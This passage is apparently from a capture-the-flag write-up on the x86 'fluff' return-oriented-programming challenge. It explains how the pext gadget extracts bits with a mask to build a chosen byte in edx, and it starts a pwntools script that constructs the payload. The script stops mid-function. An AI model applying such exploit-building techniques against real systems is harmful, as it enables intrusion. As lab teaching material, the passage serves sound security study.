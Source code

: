 Let's start by creating a function which will set the
byte we want to write into `dl`

### Set Byte
> You can calculate the byte mask manually, but try
> to program a solution! Remember that the `pext` instruction
> will go from the least significant bit to the most significant
{: .prompt-tip }
![gadget1](/images/fluff/x86-gadget1.png)

`pext` will extract bits from `ebx` according to the
mask set in `eax` and save it in `edx`. We can already
control `eax` through the `pop ebp` gadget we found in
the `print_file` section. Now we need to figure out what
value to set it to

To extract the correct bits we should refer to the
[bextr documentation](https://www.felixcloutier.com/x86/bextr){:target="_blank"}{:rel="noopener noreferrer"}.
`eax` will be our bit mask. Whenever a `1` is set in
the mask, it will extract the bit at that position in
`ebx`. In order to construct the byte for the character
`f` we will need to know
[its binary value](https://www.ascii-code.com/){:target="_blank"}{:rel="noopener noreferrer"}
and create an appropriate mask

Here's an example which will extract bits from `0xb0bababa`
to create the character `f` (`0x66`)

```python
0xb0bababa: 1011 0000 1011 1010 1011 1010 1011 1010
mask:       xxxx xxxx xxxx xxxx 0100 1011 0100 1011
work:       xxxx xxxx xxxx xxxx x0xx 1x10 x0xx 1x10
work:                            0   1 10  0   1 10
result:     0110 0110
'f' in bin: 0110 0110
```

This is some python to generate the mask from `0xb0bababa`
to create any byte

```python
#!/bin/python3
from pwn import *

gadget1 = 0x08048543

# sets the byte to write b into
# edx with gadget1
def set_byte(b):
    payload = b''

    # bit list of b
    target_bits = [1 if b & (1 << (7-n)) else 0 for n in range(8)]
    target_bits.reverse()

    # construct mask
    eax = 0xb0bababa
    mask_bits = []
```